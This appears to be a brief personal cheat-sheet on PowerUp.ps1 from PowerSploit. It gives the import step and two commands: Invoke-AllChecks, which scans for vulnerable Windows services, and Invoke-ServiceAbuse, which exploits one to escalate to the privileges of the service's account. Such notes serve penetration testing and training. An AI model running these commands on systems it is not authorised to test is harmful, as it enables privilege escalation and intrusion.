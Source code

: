 ```yaml
---
title: PowerUp.ps1 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active directory
  - ldap
  - windows
  - privilege escalation
  - tools
---
```


# PowerUp.ps1

Run from powershell.


## Installation

Download from PowerSploit Github repo: [https://github.com/ZeroDayLab/PowerSploit](https://github.com/ZeroDayLab/PowerSploit).

```ps
Import-Module .\PowerUp.ps1
```


## Basic commands

```ps
# Find services vulnerables in my machine
Invoke-AllChecks

# Exploit a vulnerable service to escalate to the more privilege user that runs that service
Invoke-ServiceAbuse -Name ‘<NAME OF THE SERVICE>’ -UserName ‘<DOMAIN CONTROLLER>\<MY CURRENT USERNAME>’
```